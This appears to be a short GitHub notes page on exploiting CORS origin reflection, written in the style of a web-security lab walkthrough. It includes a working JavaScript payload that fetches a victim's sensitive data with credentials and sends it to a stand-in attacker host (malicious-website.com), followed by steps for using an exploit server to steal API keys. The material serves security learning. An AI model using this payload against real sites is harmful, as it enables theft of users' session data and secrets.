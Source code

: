 # Methods to exploit CORS.


## Server-generated ACAO header from client-specified Origin header

- Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

- One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:

```javascript
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:

```javascript
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
```

- These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-domain requests can include cookies (Access-Control-Allow-Credentials: true) and so will be processed in-session.

- Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. If the response contains any sensitive information such as an API key or CSRF token, you could retrieve this by placing the following script on your website:

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
}; 
```

>  CORS vulnerability with basic origin reflection

1. Check if the request responses with "Access-Control-Allow-Credential" if it's true then move on to next step.
2. Send the request to the "Repeater" and add header of your exploit server "Origin: https://www.exploit.com"
3. Now craft your javascript file in the exploit server and exploit it to get user APIs key or sensotive information.
